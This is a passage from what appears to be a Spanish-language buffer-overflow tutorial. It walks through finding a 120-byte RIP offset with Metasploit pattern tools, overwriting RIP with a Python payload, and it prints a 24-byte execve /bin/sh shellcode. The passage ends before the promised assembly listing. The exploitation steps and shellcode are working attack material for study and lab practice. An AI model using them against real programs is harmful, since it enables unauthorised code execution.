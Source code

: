 ## Calculando el offset y tomando el control del RIP

Ahora que ya sabemos que podemos sobreescribir el RIP lo que tenemos que hacer ahora es encontrar el offset del RIP, ya que esto no dice desde donde se empieza a sobreescribir.

Para esto usaremos una utilidad de metasploit que se llama ```pattern_create``` que nos permite generar una serie de caracteres para poder calcular los offset, el comando queda de la siguiente manera:

```/opt/metasploit/tools/exploit/pattern_create.rb -l 150```

En mi caso lo ejecuto asi por que en esa ubicacion tengo la utilidad (se que pwndbg tiene un comando llamado ```cyclic``` para hacer lo mismo, solo que cuando lo uso me peta el pwndbg XD).

Ahora tenemos que correr el programa de esta forma con toda esta cadena que nos genero

```
r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```

Si vemos nuestro RIP ahora tiene el valor de ```0x6541316541306541```, esto son unos caracteres que se tomaron de la cadena que se genero.

Ahora con otra utilidad de metasploit llamada ```pattern_offset``` encontraremos el offset del RIP y el comando queda de la siguiente manera

```
/opt/metasploit/tools/exploit/pattern_offset.rb -q 0x6541316541306541
```

Ahi lo tenemos, ahora ya sabemos el offset del RIP
```
[*] Exact match at offset 120
```
Entonces si ahora que sabemos el offset el RIP podemos controlar a donde queremos apuntar, para saber que tenemos el control del RIP le diremos que el valor que contenga sean puras B, asi que ejecutaremos el programa de esta forma:

Lo que hara es meterle 120 A y como el offset el RIP es 120, las 8 B son con lo que vamos a sobreescribir el RIP

```
r $(python2 -c "print 'A'*120 + 'B' * 8")
```

Y ahi lo tenemos, ahora nuestro RIP tiene el valor ```0x4242424242424242```

![](/assets/img/commons/bof-stack-based/ret-control.png)

Y bueno, ahora que ya podemos controlar el valor del RIP lo que vamos hacer es que el RIP apunte de una direccion arbitraria para para ejecutar una shellcode

## Ejecutando la shellcode

### ¿Que es una shellcode? 

Una shellcode son instrucciones de bajo nivel que son programadas en lenguaje ensamblador las cuales se inyectan en la memoria, estas intrucciones para poder ser inyectadas se deben de pasar a un string de bytes, la shellcode que usaremos es de 24 bytes y es esta

```
\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05
```
Lo que hara es ejecutar /bin/sh, aqui les dejo el codigo en asm de esta misma shellcode

```